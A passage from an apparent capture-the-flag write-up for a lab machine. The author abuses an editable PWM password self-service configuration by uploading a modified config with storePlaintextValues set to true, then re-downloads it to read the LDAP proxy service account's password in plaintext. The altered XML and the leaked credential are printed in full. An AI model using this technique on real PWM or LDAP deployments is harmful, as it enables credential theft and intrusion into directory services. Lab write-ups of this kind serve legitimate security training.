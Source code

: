 Well that puts a small damper in my plans. But as fate would have it at the top of this config file there is an option to display secrets in plaintext, and an ability we have to upload new configuration files. 

```xml
<?xml version="1.0" encoding="UTF-8"?><PwmConfiguration createTime="2022-08-11T01:46:23Z" modifyTime="2022-08-11T01:46:24Z" pwmBuild="c96802e" pwmVersion="2.0.3" xmlVersion="5">
<!--
This configuration file has been auto-generated by the PWM password self service application.
  
WARNING: This configuration file contains sensitive security information, please handle with care!
  
WARNING: If a server is currently running using this configuration file, it will be restarted and the
  
configuration updated immediately when it is modified.
  
NOTICE: This file is encoded as UTF-8. Do not save or edit this file with an editor that does not
support UTF-8 encoding.

If unable to edit using the application ConfigurationEditor web UI, the following options are available:
1. Edit this file directly by hand.
2. Remove restrictions of the configuration by setting the property "configIsEditable" to "true".
This will allow access to the ConfigurationEditor web UI without having to authenticate to an
LDAP server first.

If you wish for sensitive values in this configuration file to be stored unencrypted, set the property
"storePlaintextValues" to "true".
-->
<properties type="config">
<property key="configIsEditable">true</property>
<property key="configEpoch">0</property>
<property key="configPasswordHash">$2a$10$gC/eoR5DVUShlZV4huYlg.L2NtHHmwHIxF3Nfid7FfQLoh17Nbnua</property>
<property key="storePlaintextValues">true</property>
</properties>
```

That last commented line and the final property key are what will export the passwords unencrypted/unencoded. After uploading and redownloading the config file I am greeted by a beautiful sight:

```html
<setting key="ldap.proxy.password" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="PASSWORD" syntaxVersion="0">
<label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP Proxy Password</label>
<value>PLAIN:lDaP_1n_th3_cle4r!</value>
</setting>
<setting key="ldap.proxy.username" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="STRING" syntaxVersion="0">
<label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP Proxy User</label>
<value>CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb</value>
```
